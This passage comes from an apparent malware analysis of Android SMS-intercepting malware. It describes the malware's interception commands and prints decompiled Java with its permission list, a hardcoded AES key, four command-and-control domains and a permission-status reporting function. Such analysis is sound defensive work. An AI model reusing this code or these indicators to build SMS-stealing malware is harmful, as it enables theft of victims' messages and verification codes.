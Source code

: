 Enabling/disabling a notification interception feature.

#### 7- SMS Interception

Enabling/disabling an SMS interception feature.

#### 8- Checking Permissions

This checks if the malware is granted the permissions it needs with the ability to report back with what permissions it currently has including if it's working as the defualt SMS app, if it has the notification listener active and if it has disabled battery optimization mode (doze mode).

A list of generic permissions can be noticed in the code snippet below alongside the AES key and a list of C2s.

```java
    static {
        String[] strArr = new String[10];
        strArr[0] = "android.permission.READ_SMS";
        strArr[1] = "android.permission.RECEIVE_SMS";
        strArr[2] = "android.permission.WAKE_LOCK";
        strArr[3] = "android.permission.RECEIVE_BOOT_COMPLETED";
        strArr[4] = "android.permission.ACCESS_NETWORK_STATE";
        strArr[5] = "android.permission.INTERNET";
        strArr[6] = "android.permission.READ_PHONE_STATE";
        strArr[7] = Build.VERSION.SDK_INT > 28 ? "android.permission.USE_FULL_SCREEN_INTENT" : null;
        strArr[8] = Build.VERSION.SDK_INT > 28 ? "android.permission.FOREGROUND_SERVICE" : null;
        strArr[9] = Build.VERSION.SDK_INT > 28 ? "android.permission.READ_PHONE_NUMBERS" : null;
        permissions = strArr;
        testKey = UtilEncryption.hexStringToBytes("5f9e4a92b1d8c8b98db9b7f8f8800d2e");
        apis = Arrays.asList("simpleyo5.tk", "simpleyo5.cf", "kart12sec.ga", "kart12sec.gq");
    }
```

```java
    public static String[] getPermissionsStats(Context context) {
        ArrayList arrayList = new ArrayList();
        if (isSmsDefaultAppSet(context)) {
            arrayList.add("sms_manager");
        }
        if (isNotificationServiceEnabled(context)) {
            arrayList.add("notification_manager");
        }
        if (Objects.equals(SettingsRead(context, Constants.batteryOptimizationDisabled), DiskLruCache.VERSION_1)) {
            arrayList.add("doze_mode");
        }
        if (checkPermissions(context)) {
            arrayList.add("generic_permissions");
        }
        return (String[]) arrayList.toArray(new String[0]);
    }
```
